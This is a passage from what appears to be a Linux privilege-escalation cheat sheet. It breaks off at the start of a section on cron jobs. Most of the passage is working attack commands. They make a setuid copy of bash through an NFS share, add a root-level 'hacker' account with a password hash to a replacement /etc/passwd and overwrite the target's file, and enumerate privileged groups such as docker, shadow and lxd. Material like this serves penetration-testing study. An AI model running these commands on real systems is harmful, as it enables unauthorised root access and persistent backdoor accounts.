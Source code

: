 ```bash
cp /bin/bash /tmp/nfs_mount/bash
chmod +s /tmp/nfs_mount/bash
# On target run
/shared/directory/bash -p

# Method 3: Add entry to /etc/passwd
echo 'hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash' > /tmp/nfs_mount/passwd.new
cat /etc/passwd >> /tmp/nfs_mount/passwd.new
mv /tmp/nfs_mount/passwd.new /tmp/nfs_mount/passwd
# On target, replace /etc/passwd with your version:
cp /shared/directory/passwd /etc/passwd
# Login with credentials: hacker:hacker
```

**CAUTION**: If you get "file or directory not found" but can cat the file, you may be running a 64-bit executable on a 32-bit system (or vice versa).

##  Group Membership Exploitation

### Identifying Group Memberships and Permissions

```bash
# Check your current groups
id
groups

# Find files owned by a specific group
find / -group docker -ls 2>/dev/null
find / -group sudo -ls 2>/dev/null
find / -group admin -ls 2>/dev/null
find / -group adm -ls 2>/dev/null
find / -group shadow -ls 2>/dev/null
find / -group lxd -ls 2>/dev/null

# Find all files belonging to groups you're a member of
for group in $(groups); do echo "Files for group $group:"; find / -group $group 2>/dev/null | grep -v "^/proc\|^/sys\|^/run"; done

# Find all scripts that belong to your groups and are executable
for group in $(groups); do find / -type f -group $group -perm -u=x 2>/dev/null | grep -v "^/proc\|^/sys"; done

# Use stat to inspect file permissions by group
stat /etc/passwd /etc/shadow /etc/group
```

##  Cron Job Exploitation

Cron jobs are scheduled tasks in Linux systems. When these jobs are executed with root privileges, they present potential privilege escalation vectors.
